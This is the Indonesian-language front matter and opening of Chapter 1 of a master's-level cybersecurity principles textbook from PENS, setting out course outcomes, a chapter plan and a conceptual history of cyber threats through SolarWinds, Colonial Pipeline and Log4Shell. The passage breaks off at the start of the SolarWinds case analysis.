<!-- ============================================================
     BUKU AJAR MAGISTER TERAPAN
     FORENSIK DIGITAL DAN KEAMANAN SIBER
     POLITEKNIK ELEKTRONIKA NEGERI SURABAYA
     ============================================================ -->

# BUKU AJAR

# CYBERSECURITY PRINCIPLES

## Prinsip, Standar, dan Praktik Keamanan Siber

---

**Program Studi:** Magister Terapan Forensik Digital dan Keamanan Siber  
**Jurusan:** Teknik Informatika dan Komputer  
**Institusi:** Politeknik Elektronika Negeri Surabaya (PENS)  
**Kode Mata Kuliah:** VSFDKS03 (MK-W-03)  
**Semester:** 1 (Gasal)  
**Bobot SKS:** 2 SKS Teori  
**Tahun Akademik:** 2025/2026  

---

**Tim Penyusun:**  
Prof. Iwan Syarif, S.Kom., M.Kom., M.Sc., Ph.D. *(Koordinator)*  
Dr. Ferry Astika Saputra, S.T., M.Sc.

---

> *"Security is a process, not a product."*  
> — Bruce Schneier

---

## HALAMAN PENGESAHAN

| Komponen | Keterangan |
|---|---|
| No. Dokumen | FM.RPS.MTr.FDKS.VSFDKS03.2025 |
| Tanggal Penyusunan | 28 Mei 2026 |
| Status Dokumen | Aktif — Tahun Akademik 2025/2026 |
| Revisi | 1.0 |

---

## KATA PENGANTAR

Buku ajar ini disusun sebagai panduan pembelajaran mandiri bagi mahasiswa Program Studi Magister Terapan Forensik Digital dan Keamanan Siber, Politeknik Elektronika Negeri Surabaya. Mata kuliah Cybersecurity Principles (VSFDKS03) merupakan mata kuliah fondasi yang mempersiapkan mahasiswa untuk memahami, menganalisis, dan merancang strategi keamanan siber secara komprehensif sebelum memasuki mata kuliah lanjutan seperti Ethical Hacking, Security Audit, dan Digital Forensics.

Dunia keamanan siber bergerak dengan kecepatan yang tidak tertandingi oleh disiplin ilmu lain. Serangan SolarWinds pada 2020, insiden Colonial Pipeline pada 2021, eksploitasi Log4Shell pada akhir 2021, dan gelombang serangan ransomware yang terus meningkat—semuanya menunjukkan bahwa ancaman siber bukan lagi sekadar masalah teknis, melainkan masalah strategis yang memengaruhi keamanan nasional, stabilitas ekonomi, dan kepercayaan publik.

Buku ini ditulis dengan perspektif seorang praktisi senior yang memahami bahwa keamanan siber yang efektif mensyaratkan tiga hal yang tidak dapat dipisahkan: **pemahaman teori yang mendalam**, **penerapan standar dan framework yang tepat**, serta **etika profesional yang kokoh**. Tanpa pemahaman teori, praktisi hanya mampu bereaksi terhadap ancaman yang sudah dikenal. Tanpa standar, upaya pertahanan menjadi tidak konsisten dan tidak dapat diaudit. Tanpa etika, kemampuan teknis berpotensi disalahgunakan.

Setiap bab dalam buku ini dirancang untuk tidak sekadar mendefinisikan konsep, tetapi untuk menjelaskan *mengapa* konsep tersebut penting, *bagaimana* ia bekerja dalam praktik, *di mana* batas-batas penerapannya, dan *apa* risiko kesalahan interpretasinya. Latihan dan studi kasus dirancang agar mahasiswa terlatih untuk berpikir secara kritis pada level C4–C5 taksonomi Bloom: menganalisis, mengevaluasi, dan merancang solusi berbasis bukti.

Buku ini mengikuti Rencana Pembelajaran Semester (RPS) VSFDKS03 secara ketat. Setiap bab dipetakan ke Sub-CPMK, CPMK, dan CPL yang relevan, sehingga mahasiswa dapat dengan mudah melacak perkembangan kompetensinya. Diagram Mermaid digunakan secara ekstensif untuk memvisualisasikan arsitektur, alur, dan hubungan antar konsep yang seringkali sulit dipahami hanya melalui teks.

Kami mengucapkan terima kasih kepada seluruh dosen dan staf Program Studi Magister Terapan FDKS PENS yang telah berkontribusi dalam penyusunan kurikulum dan RPS ini. Semoga buku ini bermanfaat bagi mahasiswa, dosen, dan praktisi keamanan siber Indonesia.

**Surabaya, Juni 2026**

**Tim Penulis**

---

## DESKRIPSI MATA KULIAH

**Cybersecurity Principles (VSFDKS03)** adalah mata kuliah fondasi berbobot 2 SKS teori yang diselenggarakan pada Semester 1 (Gasal) Program Studi Magister Terapan Forensik Digital dan Keamanan Siber PENS.

Mata kuliah ini membangun pemahaman komprehensif tentang prinsip, standar, dan praktik keamanan siber. Pembahasan mencakup: triad CIA (*Confidentiality, Integrity, Availability*), model ancaman (*threat modelling*), framework keamanan (NIST CSF v2.0, ISO/IEC 27001:2022, ISO/IEC 27002:2022, MITRE ATT&CK), arsitektur pertahanan berlapis (*defense-in-depth*), manajemen risiko, kriptografi terapan, keamanan jaringan, keamanan *endpoint*, keamanan *cloud*, serta tren ancaman kontemporer termasuk APT, *ransomware*, *supply chain attacks*, dan serangan berbasis AI.

Pendekatan pembelajaran bersifat berbasis kasus (*case-based*) dan berbasis masalah (*problem-based*), yang mendorong mahasiswa untuk menganalisis insiden nyata, mengevaluasi postur keamanan organisasi, dan merancang kontrol berbasis risiko. Level Bloom yang dominan adalah C3 (Mengaplikasikan) dan C4 (Menganalisis).

Mata kuliah ini menjadi **prasyarat pedagogik** bagi tiga mata kuliah lanjutan: Ethical Hacking (VSFDKS06), Security Audit (VSFDKS07), dan Digital Forensics (VSFDKS08).

---

## METADATA MATA KULIAH

| Komponen | Keterangan |
|---|---|
| Kode Mata Kuliah | VSFDKS03 (Kode RPS: MK-W-03) |
| Nama Mata Kuliah | Cybersecurity Principles |
| Rumpun Mata Kuliah | Keilmuan Inti — Dasar Keamanan Informasi, Risiko dan Governance, Penanganan dan Respons Serangan |
| Bobot SKS | T = 2, P = 0 |
| Semester | 1 (Gasal) |
| Program Studi | Magister Terapan Forensik Digital dan Keamanan Siber |
| Jurusan | Teknik Informatika dan Komputer |
| Institusi | Politeknik Elektronika Negeri Surabaya (PENS) |
| Dosen Koordinator | Prof. Iwan Syarif, S.Kom., M.Kom., M.Sc., Ph.D. |
| Dosen Anggota | Dr. Ferry Astika Saputra, S.T., M.Sc. |
| Level Bloom Dominan | C3–C4 (Mengaplikasikan dan Menganalisis) |
| Prasyarat | Tidak ada |
| Mata Kuliah Prasyarat untuk | VSFDKS06 (Ethical Hacking), VSFDKS07 (Security Audit), VSFDKS08 (Digital Forensics) |
| Jenis Mata Kuliah | Wajib |

---

## PETA OBE: CPL → IK → CPMK → Sub-CPMK → EVALUASI

### Capaian Pembelajaran Lulusan (CPL)

| Kode CPL | Deskripsi |
|---|---|
| CPL3 | Menguasai konsep dan prinsip keamanan siber secara mendalam, termasuk mitigasi ancaman. |
| CPL5 | Menguasai metode dan tools analisis ancaman untuk mendeteksi dan memitigasi risiko. |
| CPL6 | Mampu menganalisis masalah keamanan siber secara kritis dan memberikan solusi strategis. |
| CPL9 | Mampu merancang dan memelihara infrastruktur keamanan yang andal. |
| CPL11 | Mampu melakukan audit sistem keamanan siber untuk memastikan kepatuhan standar. |

### Indikator Kinerja (IK)

| Kode IK | CPL | Deskripsi |
|---|---|---|
| IK-3.a | CPL3 | Kemampuan menjelaskan dan menerapkan konsep dasar keamanan siber: CIA triad, AAA, least privilege, separation of duties, defense-in-depth, zero trust, kontrol keamanan, dan standar dasar. |
| IK-5.a | CPL5 | Kemampuan menganalisis ancaman, kerentanan, risiko, aktor ancaman, TTP, CVE/CVSS/CWE, MITRE ATT&CK, dan Cyber Kill Chain pada skenario keamanan organisasi. |
| IK-6.a | CPL6 | Kemampuan mengevaluasi postur keamanan dan merumuskan rekomendasi mitigasi strategis berbasis bukti, risiko, dampak, dan prioritas kontrol. |
| IK-9.a | CPL9 | Kemampuan merancang kontrol dan arsitektur keamanan dasar untuk jaringan, endpoint, kriptografi terapan, cloud, virtualisasi, serta perlindungan data. |
| IK-11.a | CPL11 | Kemampuan melakukan gap analysis dan risk assessment awal menggunakan NIST CSF v2.0, ISO/IEC 27001:2022/27002:2022, NIST SP 800-30, dan praktik audit/kepatuhan dasar. |

### Capaian Pembelajaran Mata Kuliah (CPMK)

| Kode CPMK | IK | Level Bloom | Deskripsi |
|---|---|---|---|
| CPMK.1 | IK-3.a | C3 | Mampu menjelaskan dan mengaplikasikan konsep dasar keamanan siber: CIA triad, AAA, defense-in-depth, least privilege, separation of duties, dan zero trust dalam skenario keamanan organisasi. |
| CPMK.2 | IK-5.a | C4 | Mampu menganalisis berbagai jenis ancaman, kerentanan, dan vektor serangan menggunakan MITRE ATT&CK, Cyber Kill Chain, CVE, CVSS, CWE, dan NVD. |
| CPMK.3 | IK-11.a, IK-6.a | C4 | Mampu mengevaluasi postur keamanan organisasi menggunakan NIST CSF v2.0 dan standar ISO/IEC 27001:2022/27002:2022. |
| CPMK.4 | IK-9.a, IK-6.a | C4 | Mampu merancang strategi keamanan berbasis risk assessment dan kontrol teknis-organisasional dengan pendekatan kuantitatif dan kualitatif. |

### Sub-Capaian Pembelajaran Mata Kuliah (Sub-CPMK)

| Kode Sub-CPMK | CPMK | Pertemuan | Deskripsi |
|---|---|---|---|
| Sub-CPMK.1 | CPMK.1 | 1–2 | Mampu menjelaskan ruang lingkup keamanan siber, sejarah insiden besar, prinsip dasar CIA/AAA, least privilege, separation of duties, defense-in-depth, dan zero trust. |
| Sub-CPMK.2 | CPMK.2 | 3–6 | Mampu menganalisis threat landscape, aktor ancaman, TTP, CVE/CVSS/CWE/NVD, MITRE ATT&CK, dan Cyber Kill Chain pada skenario serangan siber. |
| Sub-CPMK.3 | CPMK.3 | 7–8 | Mampu melakukan gap analysis awal terhadap postur keamanan organisasi menggunakan NIST CSF v2.0 serta menyelesaikan evaluasi tengah semester. |
| Sub-CPMK.4 | CPMK.3, CPMK.4 | 9–12 | Mampu mengevaluasi kontrol ISO/IEC 27001:2022/27002:2022 dan menyusun risk assessment, rancangan arsitektur keamanan jaringan, serta checklist hardening endpoint. |
| Sub-CPMK.5 | CPMK.4 | 13–15 | Mampu menjelaskan kriptografi terapan, keamanan cloud/virtualisasi, dan tren ancaman kontemporer serta menyusun position paper berbasis bukti. |
| Sub-CPMK.6 | CPMK.1–4 | 16 | Mampu menyelesaikan evaluasi akhir semester dan mempresentasikan rancangan mini risk assessment secara sistematis dan profesional. |

### Bobot Evaluasi

| Kode Evaluasi | Nama Evaluasi | Bobot | Sub-CPMK |
|---|---|---|---|
| Eval-1 | Ringkasan kasus dan kuis konsep | 5% | Sub-CPMK.1 |
| Eval-2 | Threat report, analisis CVE, pemetaan ATT&CK/Kill Chain | 10% | Sub-CPMK.2 |
| Eval-3 | Ujian Tengah Semester (UTS) | 30% | Sub-CPMK.1–3 |
| Eval-4 | Gap analysis, risk assessment, desain arsitektur, checklist hardening | 10% | Sub-CPMK.4 |
| Eval-5 | Position paper dan presentasi tren ancaman/kontrol | 15% | Sub-CPMK.5 |
| Eval-6 | Ujian Akhir Semester (UAS) dan presentasi mini risk assessment | 30% | Sub-CPMK.1–6 |
| **Total** | | **100%** | |

---

## PETA KOMPETENSI MATA KULIAH



---

## TABEL PEMETAAN OBE — BAB, SUB-CPMK, MATERI, AKTIVITAS, EVALUASI, ARTEFAK

| Bab | Judul Bab | Sub-CPMK | CPMK | Materi Utama | Aktivitas | Evaluasi | Artefak |
|---|---|---|---|---|---|---|---|
| 1 | Pengantar Keamanan Siber: Ruang Lingkup, Sejarah, dan Konteks | Sub-CPMK.1 | CPMK.1 | Ruang lingkup keamanan siber; insiden besar (SolarWinds, Colonial, Log4Shell) | Diskusi kasus, analisis insiden | Eval-1 (sebagian) | Ringkasan kasus |
| 2 | Prinsip Dasar Keamanan Siber: CIA Triad, AAA, Least Privilege, dan Zero Trust | Sub-CPMK.1 | CPMK.1 | CIA, AAA, least privilege, separation of duties, defense-in-depth, zero trust | Kuis konsep, diskusi | Eval-1 | Kuis konsep |
| 3 | Threat Landscape: Aktor Ancaman, Jenis Serangan, dan Analisis TTP | Sub-CPMK.2 | CPMK.2 | Aktor ancaman, cybercrime, insider, hacktivist, APT, TTP | Analisis threat report, diskusi kelompok | Eval-2 (sebagian) | Threat report analysis |
| 4 | Analisis Kerentanan: CVE, CVSS, CWE, dan NVD | Sub-CPMK.2 | CPMK.2 | CVE, CVSS v3.1/v4.0, CWE, NVD, zero-day vs N-day | Analisis 3 CVE nyata | Eval-2 (sebagian) | CVE analysis report |
| 5 | MITRE ATT&CK Framework: Taktik, Teknik, dan Prosedur | Sub-CPMK.2 | CPMK.2 | MITRE ATT&CK, ATT&CK Navigator, taktik TA0001–TA0011 | Mapping TTP ke ATT&CK Navigator | Eval-2 (sebagian) | ATT&CK mapping |
| 6 | Cyber Kill Chain: Rekonstruksi dan Analisis Serangan Siber | Sub-CPMK.2 | CPMK.2 | Cyber Kill Chain (7 fase), rekonstruksi serangan, counter-measures per fase | Rekonstruksi Kill Chain kasus APT | Eval-2 | Kill Chain report |
| 7 | NIST Cybersecurity Framework v2.0: Govern, Identify, Protect, Detect, Respond, Recover | Sub-CPMK.3 | CPMK.3 | NIST CSF v2.0: 6 fungsi inti, kategori, subkategori, tier, profil | Workshop pemetaan CSF | Eval-3 (UTS) | CSF profile draft |
| 8 | Gap Analysis dan Evaluasi Postur Keamanan Organisasi | Sub-CPMK.3 | CPMK.3 | Gap analysis, current/target profile, risk tolerance, UTS review | Gap analysis praktikum + UTS | Eval-3 (UTS 30%) | Gap analysis report + UTS |
| 9 | ISO/IEC 27001:2022: Sistem Manajemen Keamanan Informasi (ISMS) | Sub-CPMK.4 | CPMK.3, CPMK.4 | ISMS, klausul 4–10 ISO 27001:2022, siklus Plan-Do-Check-Act | Audit ISMS checklist | Eval-4 (sebagian) | ISMS checklist |
| 10 | ISO/IEC 27002:2022: Kontrol Keamanan Informasi | Sub-CPMK.4 | CPMK.3, CPMK.4 | 93 kontrol ISO 27002:2022, 4 tema, Annex A mapping | Pemetaan kontrol ke risiko organisasi | Eval-4 (sebagian) | Control mapping table |
| 11 | Manajemen Risiko Siber: Risk Assessment dan Risk Treatment | Sub-CPMK.4 | CPMK.4 | NIST SP 800-30, ISO 31000, ALE/SLE/ARO, risk register, risk treatment | Penyusunan risk register organisasi | Eval-4 (sebagian) | Risk register |
| 12 | Arsitektur Keamanan Jaringan dan Hardening Endpoint | Sub-CPMK.4 | CPMK.4 | Firewall, IDS/IPS, DMZ, segmentasi, VPN, NAC, EDR, CIS Benchmarks, patch management | Desain arsitektur + hardening checklist | Eval-4 | Arsitektur diagram + hardening checklist |
| 13 | Kriptografi Terapan dan Perlindungan Data | Sub-CPMK.5 | CPMK.4 | Enkripsi simetris/asimetris, hashing, PKI, TLS/SSL, digital signature, post-quantum | Demo TLS/hash, analisis sertifikat | Eval-5 (sebagian) | Crypto analysis report |
| 14 | Keamanan Cloud dan Virtualisasi | Sub-CPMK.5 | CPMK.4 | Shared responsibility model, cloud security controls, container security, CSP security | Analisis kasus cloud breach | Eval-5 (sebagian) | Cloud security assessment |
| 15 | Tren Ancaman Kontemporer: APT, AI-Driven Attacks, Supply Chain, dan Quantum Threat | Sub-CPMK.5 | CPMK.4 | APT, ransomware, supply chain, AI-driven attacks, deepfake, IoT/OT, quantum threat | Penyusunan position paper | Eval-5 (15%) | Position paper + presentasi |
| 16 | Integrasi Komprehensif dan Evaluasi Akhir Semester | Sub-CPMK.6 | CPMK.1–4 | Integrasi seluruh materi, mini risk assessment, rekomendasi strategis | UAS + presentasi mini risk assessment | Eval-6 (30%) | UAS + mini risk assessment report |

---

## PETUNJUK PENGGUNAAN BUKU

### Bagi Mahasiswa

Buku ini dirancang sebagai **bahan ajar mandiri** yang dapat dibaca tanpa kehadiran dosen sekalipun. Setiap bab terstruktur untuk membawa Anda dari konteks (mengapa topik ini penting) → teori (apa dan bagaimana) → penerapan (studi kasus nyata) → praktik (aktivitas terstruktur) → evaluasi (latihan dan studi kasus).

**Cara membaca yang disarankan:**

1. Baca **Capaian Pembelajaran Bab** terlebih dahulu untuk mengetahui apa yang diharapkan setelah Anda selesai membaca bab ini.
2. Lihat **Peta Konsep** (diagram Mermaid) untuk mendapatkan gambaran besar sebelum membaca detail.
3. Baca **Pengantar Kontekstual** untuk memahami relevansi topik dengan dunia nyata.
4. Pelajari **Landasan Teori** secara mendalam. Jangan hanya membaca definisi — pahami prinsip kerja, asumsi, dan batas-batas setiap konsep.
5. Cermati **Contoh Terapan** untuk menghubungkan teori dengan praktik nyata.
6. Lakukan **Praktikum atau Aktivitas Terarah** secara mandiri atau dalam kelompok.
7. Kerjakan **Latihan Pemahaman** dan **Studi Kasus** sebelum melihat kunci jawaban.
8. Periksa **Kunci Jawaban dan Pembahasan** — perhatikan tidak hanya jawaban benar, tetapi juga *mengapa* jawaban lain kurang tepat.
9. Baca **Ringkasan Bab** untuk konsolidasi pemahaman.
10. Renungkan **Pertanyaan Refleksi Profesional**.

### Bagi Dosen

Buku ini mengikuti RPS VSFDKS03 secara ketat. Setiap bab sesuai dengan Sub-CPMK dan pertemuan tertentu. Dosen dapat menggunakan bab yang relevan sebagai bahan bacaan wajib sebelum pertemuan, sementara kegiatan tatap muka difokuskan pada diskusi mendalam, analisis kasus, dan feedback terstruktur.

### Konvensi Notasi

| Simbol/Format | Makna |
|---|---|
| **Teks tebal** | Istilah teknis penting |
| `kode monospace` | Nama tool, perintah, standar, atau kode teknis |
| > Blok kutipan | Definisi formal atau kutipan dari standar/framework |
| ⚠️ **Catatan Etika** | Batasan etika dan legalitas yang wajib diperhatikan |
| 💡 **Insight Profesional** | Pengalaman dan perspektif praktisi senior |
| 📌 **Poin Kunci** | Konsep yang paling sering diuji atau disalahpahami |

---

## DAFTAR BAB

| No. Bab | Judul | Pertemuan | Sub-CPMK |
|---|---|---|---|
| Bab 1 | Pengantar Keamanan Siber: Ruang Lingkup, Sejarah, dan Konteks | 1 | Sub-CPMK.1 |
| Bab 2 | Prinsip Dasar Keamanan Siber: CIA Triad, AAA, Least Privilege, dan Zero Trust | 2 | Sub-CPMK.1 |
| Bab 3 | Threat Landscape: Aktor Ancaman, Jenis Serangan, dan Analisis TTP | 3 | Sub-CPMK.2 |
| Bab 4 | Analisis Kerentanan: CVE, CVSS, CWE, dan NVD | 4 | Sub-CPMK.2 |
| Bab 5 | MITRE ATT&CK Framework: Taktik, Teknik, dan Prosedur | 5 | Sub-CPMK.2 |
| Bab 6 | Cyber Kill Chain: Rekonstruksi dan Analisis Serangan Siber | 6 | Sub-CPMK.2 |
| Bab 7 | NIST Cybersecurity Framework v2.0 | 7 | Sub-CPMK.3 |
| Bab 8 | Gap Analysis dan Evaluasi Postur Keamanan Organisasi | 8 | Sub-CPMK.3 |
| Bab 9 | ISO/IEC 27001:2022: Sistem Manajemen Keamanan Informasi | 9 | Sub-CPMK.4 |
| Bab 10 | ISO/IEC 27002:2022: Kontrol Keamanan Informasi | 10 | Sub-CPMK.4 |
| Bab 11 | Manajemen Risiko Siber: Risk Assessment dan Risk Treatment | 11 | Sub-CPMK.4 |
| Bab 12 | Arsitektur Keamanan Jaringan dan Hardening Endpoint | 12 | Sub-CPMK.4 |
| Bab 13 | Kriptografi Terapan dan Perlindungan Data | 13 | Sub-CPMK.5 |
| Bab 14 | Keamanan Cloud dan Virtualisasi | 14 | Sub-CPMK.5 |
| Bab 15 | Tren Ancaman Kontemporer | 15 | Sub-CPMK.5 |
| Bab 16 | Integrasi Komprehensif dan Evaluasi Akhir Semester | 16 | Sub-CPMK.6 |
| Lampiran | Template, Rubrik, dan Panduan Praktikum | — | — |
| Daftar Pustaka | Pustaka Utama dan Pendukung | — | — |

---


---

# BAB 1 — PENGANTAR KEAMANAN SIBER: RUANG LINGKUP, SEJARAH, DAN KONTEKS

**Pertemuan:** 1  
**Sub-CPMK:** Sub-CPMK.1  
**CPMK:** CPMK.1  
**Evaluasi:** Eval-1 (Ringkasan kasus dan kuis konsep, 5%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 1, mahasiswa mampu:

- Mendefinisikan keamanan siber dan membedakannya dari keamanan informasi dan keamanan jaringan secara konseptual.
- Mendeskripsikan ruang lingkup keamanan siber dalam konteks organisasi, nasional, dan global.
- Mengidentifikasi dan menganalis insiden keamanan siber besar (SolarWinds, Colonial Pipeline, Log4Shell) beserta dampak teknis, operasional, dan strategisnya.
- Menjelaskan evolusi ancaman siber dari era pra-internet hingga era AI-driven attacks.
- Mengaitkan setiap insiden besar dengan kegagalan prinsip keamanan yang mendasarinya.

*Kaitan OBE: Sub-CPMK.1 → CPMK.1 → IK-3.a → CPL3 → Eval-1*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Pada tanggal 13 Desember 2020, FireEye mengumumkan bahwa mereka telah menjadi korban serangan yang sangat canggih. Penyerang menyusup melalui pembaruan perangkat lunak SolarWinds Orion yang digunakan oleh ribuan organisasi di seluruh dunia, termasuk lembaga pemerintah AS seperti Departemen Keuangan dan Departemen Keamanan Dalam Negeri. Serangan ini berlangsung selama sembilan bulan sebelum terdeteksi. Ketika akhirnya terungkap, dunia keamanan siber global menghadapi pertanyaan yang memilukan: bagaimana mungkin serangan berskala sebesar ini tidak terdeteksi selama hampir setahun penuh?

Kurang dari enam bulan kemudian, Colonial Pipeline — perusahaan yang menyuplai sekitar 45% bahan bakar di pantai timur Amerika Serikat — melaporkan serangan ransomware yang memaksanya menghentikan operasi selama beberapa hari. Antrean panjang di SPBU, kepanikan pembelian bahan bakar, dan kerugian ekonomi senilai jutaan dolar menjadi dampak nyata yang dirasakan oleh masyarakat biasa.

Kemudian pada Desember 2021, kerentanan kritis ditemukan di Log4j — pustaka logging Java yang tertanam dalam jutaan aplikasi di seluruh dunia. CVE-2021-44228, yang dikenal sebagai Log4Shell, memiliki skor CVSS 10.0 (tertinggi) dan memungkinkan penyerang mengeksekusi kode arbitrer dari jarak jauh hanya dengan mengirimkan satu baris teks. Patch yang tersedia tidak dapat langsung diterapkan karena banyak organisasi bahkan tidak tahu bahwa mereka menggunakan Log4j.

Ketiga insiden ini bukan sekadar catatan historis. Mereka adalah pelajaran berharga tentang mengapa keamanan siber tidak dapat diperlakukan sebagai "masalah IT" semata. Keamanan siber adalah masalah strategis yang menyentuh kelangsungan bisnis, kedaulatan nasional, kepercayaan publik, dan bahkan keselamatan jiwa manusia ketika menyangkut infrastruktur kritis.

Sebagai mahasiswa Magister Terapan Forensik Digital dan Keamanan Siber, pemahaman tentang konteks sejarah dan ruang lingkup keamanan siber bukan hanya pengetahuan akademis. Ini adalah fondasi yang menentukan bagaimana Anda akan menganalisis ancaman, merancang pertahanan, dan berkomunikasi dengan manajemen organisasi tentang risiko yang sesungguhnya.

---

## 4. Landasan Teori

### 4.1 Definisi dan Ruang Lingkup Keamanan Siber

> **Definisi Formal (NIST SP 800-12 Rev.1):** *Cybersecurity* adalah aktivitas atau proses, kemampuan atau kapabilitas, atau kondisi yang melaluinya informasi dan sistem komunikasi serta informasi yang terkandung di dalamnya dilindungi dari atau dibela terhadap kerusakan, penggunaan tanpa izin, atau modifikasi, dan eksploitasi.

**Perbedaan Keamanan Siber vs Keamanan Informasi:**

Kedua istilah ini sering digunakan secara bergantian, namun terdapat perbedaan konseptual yang penting:

- **Keamanan Informasi** (*Information Security* atau *InfoSec*) adalah disiplin yang lebih luas yang mencakup perlindungan informasi dalam semua bentuknya — termasuk dokumen fisik, informasi verbal, dan data digital. InfoSec berlandaskan pada triad CIA (Confidentiality, Integrity, Availability).
  
- **Keamanan Siber** (*Cybersecurity*) adalah subset dari InfoSec yang secara spesifik berfokus pada perlindungan sistem, jaringan, dan data digital dari ancaman yang berasal dari atau difasilitasi oleh ruang siber (*cyberspace*).

Dalam praktiknya, keamanan siber modern mencakup dimensi yang jauh lebih luas dari sekadar teknis:

| Dimensi | Cakupan | Contoh |
|---|---|---|
| **Teknis** | Perangkat keras, perangkat lunak, jaringan, protokol | Firewall, enkripsi, patch management, IDS/IPS |
| **Prosedural** | Kebijakan, prosedur, standar operasional | Kebijakan password, SOP incident response, access control policy |
| **Manusia** | Perilaku pengguna, kesadaran keamanan, insider threat | Security awareness training, background check, phishing simulation |
| **Hukum dan Regulasi** | Peraturan, standar kepatuhan, pertanggungjawaban hukum | UU ITE, GDPR, PCI-DSS, ISO 27001, HIPAA |
| **Strategis** | Tata kelola, manajemen risiko, business continuity | CISO role, risk appetite, BCP/DRP |
| **Geopolitik** | Nation-state threats, cyber warfare, intelligence | APT groups, critical infrastructure protection |

**Tujuan Keamanan Siber:**
Tujuan utama keamanan siber dapat dirangkum dalam tiga level:
1. **Pencegahan** (*Prevention*): Mencegah insiden keamanan terjadi sejak awal melalui kontrol preventif.
2. **Deteksi** (*Detection*): Mengidentifikasi insiden yang berhasil melewati kontrol preventif secepat mungkin.
3. **Respons dan Pemulihan** (*Response and Recovery*): Merespons insiden yang terdeteksi untuk membatasi dampak dan memulihkan operasi normal.

**Asumsi Penting:**
Praktisi keamanan siber modern beroperasi di bawah **asumsi pelanggaran** (*breach assumption*): bukan *jika* organisasi akan diserang, melainkan *kapan* dan *seberapa siap* organisasi menghadapinya. Asumsi ini menggeser paradigma dari "mencegah semua serangan" ke "mendeteksi cepat dan pulih cepat".

**Batasan Keamanan Siber:**
- Keamanan siber tidak dapat menjamin perlindungan 100%. Tidak ada sistem yang sepenuhnya aman.
- Keamanan siber selalu melibatkan trade-off antara keamanan, kegunaan (*usability*), dan biaya.
- Kontrol teknis tidak dapat sepenuhnya menggantikan kontrol manusia dan prosedural.
- Hukum dan regulasi keamanan siber berbeda-beda antar yurisdiksi.

### 4.2 Evolusi Ancaman Siber: Dari Virus hingga AI-Driven Attacks

Memahami evolusi ancaman siber penting karena memberikan perspektif tentang bagaimana teknik serangan berkembang sebagai respons terhadap perkembangan teknologi dan kontrol defensif.

**Era Pra-Internet (1970-an – 1990-an):**
Ancaman pertama kali muncul dalam bentuk program eksperimental seperti *Creeper* (1971) dan *Reaper* (1972) pada jaringan ARPANET. Tahun 1988 menjadi tonggak penting ketika **Morris Worm** menginfeksi sekitar 6.000 komputer — angka yang tampak kecil namun setara dengan ~10% dari seluruh internet saat itu. Worm ini tidak dirancang untuk mencuri data, tetapi dampaknya terhadap ketersediaan jaringan menjadi peringatan dini tentang bahaya kode yang dapat menyebarkan diri sendiri.

Pada era ini, motivasi pelaku didominasi oleh **rasa ingin tahu** (*curiosity*) dan **eksperimentasi**. Keamanan jaringan belum menjadi prioritas karena internet masih terbatas pada komunitas akademis dan militer.

**Era Internet Komersial (1990-an – 2010-an):**
Ledakan pertumbuhan internet membawa serta gelombang ancaman baru dengan motivasi yang bergeser ke arah **keuntungan finansial** dan **sabotase**. Virus yang menyebar melalui email (ILOVEYOU, Melissa), serangan DDoS (*Distributed Denial of Service*), dan eksploitasi kerentanan web menjadi ancaman dominan.

Tahun 2000-an menjadi era **cybercrime terorganisir** dengan munculnya pasar gelap (*dark market*) untuk jual-beli malware, data curian, dan layanan serangan-sebagai-jasa (*crime-as-a-service*). Botnet seperti Conficker (2008) menginfeksi jutaan komputer dan membentuk infrastruktur serangan yang dapat disewa.

**Era APT dan Cyber Warfare (2010-an):**
Stuxnet (2010) mengubah paradigma keamanan siber secara fundamental. Untuk pertama kalinya, sebuah senjata siber (*cyberweapon*) dirancang untuk menyebabkan kerusakan fisik pada infrastruktur kritis — dalam hal ini, sentrifugal pengayaan uranium Iran. Stuxnet menunjukkan bahwa serangan siber dapat memiliki konsekuensi di dunia fisik yang setara dengan serangan konvensional.

**Advanced Persistent Threat (APT)** — serangan yang disponsori negara, bertarget, dan berlangsung dalam jangka panjang — menjadi ancaman paling berbahaya bagi organisasi besar dan infrastruktur kritis. Kelompok seperti APT28 (Fancy Bear, dikaitkan dengan Rusia), APT41 (dikaitkan dengan China), dan Lazarus Group (dikaitkan dengan Korea Utara) menjadi aktor ancaman yang paling banyak didokumentasikan.

**Era Supply Chain dan AI-Driven Attacks (2020-Kini):**
Dua tren mendominasi lanskap ancaman kontemporer:

1. **Supply Chain Attacks**: Penyerang tidak lagi menyerang target utama secara langsung, melainkan melalui rantai pasokan perangkat lunak atau layanan (*software supply chain*). SolarWinds (2020) dan 3CX (2023) adalah contoh paradigmatik di mana kode berbahaya disuntikkan ke dalam pembaruan perangkat lunak yang sah.

2. **AI-Driven Attacks**: Kecerdasan buatan mulai digunakan untuk mengotomatisasi serangan, menghasilkan *phishing* yang lebih meyakinkan (*spear-phishing* berbasis generative AI), menciptakan *deepfake* audio/video untuk rekayasa sosial, dan mengoptimalkan eksploitasi kerentanan. Ini bukan ancaman masa depan — ini adalah realitas yang sudah terjadi.

### 4.3 Analisis Insiden Besar

#### 4.3.1 Serangan SolarWinds (2020)

